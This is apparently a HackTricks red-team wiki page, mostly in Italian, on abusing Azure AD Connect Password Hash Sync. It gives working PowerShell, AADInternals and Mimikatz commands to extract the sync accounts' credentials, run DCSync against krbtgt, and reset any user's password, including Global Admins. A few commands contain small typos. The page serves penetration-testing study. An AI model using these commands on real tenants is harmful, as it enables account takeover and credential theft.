 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La sincronizzazione degli hash delle password** è uno dei metodi di accesso utilizzati per realizzare l'identità ibrida. **Azure AD Connect** sincronizza un hash, dell'hash, della password di un utente da un'istanza di Active Directory on-premises a un'istanza di Azure AD basata su cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

È il **metodo più comune** utilizzato dalle aziende per sincronizzare un AD on-prem con Azure AD.

Tutti gli **utenti** e un **hash degli hash delle password** vengono sincronizzati dall'on-prem a Azure AD. Tuttavia, le **password in chiaro** o gli **hash originali** non vengono inviati a Azure AD.\
Inoltre, i gruppi di sicurezza **integrati** (come gli amministratori di dominio...) **non vengono sincronizzati** con Azure AD.

La **sincronizzazione degli hash** avviene ogni **2 minuti**. Tuttavia, per impostazione predefinita, la **scadenza della password** e la **scadenza dell'account** **non vengono sincronizzate** in Azure AD. Quindi, un utente la cui **password on-prem è scaduta** (non cambiata) può continuare ad **accedere alle risorse Azure** utilizzando la vecchia password.

Quando un utente on-prem vuole accedere a una risorsa Azure, l'**autenticazione avviene su Azure AD**.

**PHS** è necessario per funzionalità come **Identity Protection** e AAD Domain Services.

## Pivoting

Quando PHS è configurato, alcuni **account privilegiati** vengono automaticamente **creati**:

* L'account **`MSOL_<installationID>`** viene automaticamente creato nell'AD on-prem. Questo account riceve un ruolo di **Directory Synchronization Accounts** (vedi [documentazione](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) che significa che ha **permessi di replica (DCSync) nell'AD on-prem**.
* Un account **`Sync_<name of on-prem ADConnect Server>_installationID`** viene creato in Azure AD. Questo account può **reimpostare la password di QUALSIASI utente** (sincronizzato o solo cloud) in Azure AD.

Le password dei due precedenti account privilegiati sono **memorizzate in un server SQL** sul server dove **Azure AD Connect è installato.** Gli amministratori possono estrarre le password di quegli utenti privilegiati in chiaro.\
Il database si trova in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

È possibile estrarre la configurazione da una delle tabelle, essendo una criptata:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configurazione criptata** è criptata con **DPAPI** e contiene le **password degli utenti `MSOL_*`** nell'AD on-prem e la password di **Sync\_\*** in AzureAD. Pertanto, compromettendo questi è possibile ottenere privilegi elevati nell'AD e in AzureAD.

Puoi trovare una [panoramica completa su come queste credenziali sono memorizzate e decriptate in questo intervento](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Se il **server dove Azure AD connect è installato** è unito al dominio (raccomandato nella documentazione), è possibile trovarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abusing MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Puoi anche usare [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) per ottenere queste credenziali.
{% endhint %}

### Abusare di Sync\_\*

Compromettendo l'account **`Sync_*`** è possibile **reimpostare la password** di qualsiasi utente (inclusi gli Amministratori Globali)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
È anche possibile **modificare le password solo degli utenti cloud** (anche se ciò è inaspettato)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
È anche possibile estrarre la password di questo utente.

{% hint style="danger" %}
Un'altra opzione sarebbe **assegnare permessi privilegiati a un service principal**, che l'utente **Sync** ha **permessi** per fare, e poi **accedere a quel service principal** come modo di privesc.
{% endhint %}

### Seamless SSO

È possibile utilizzare Seamless SSO con PHS, che è vulnerabile ad altri abusi. Controllalo in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

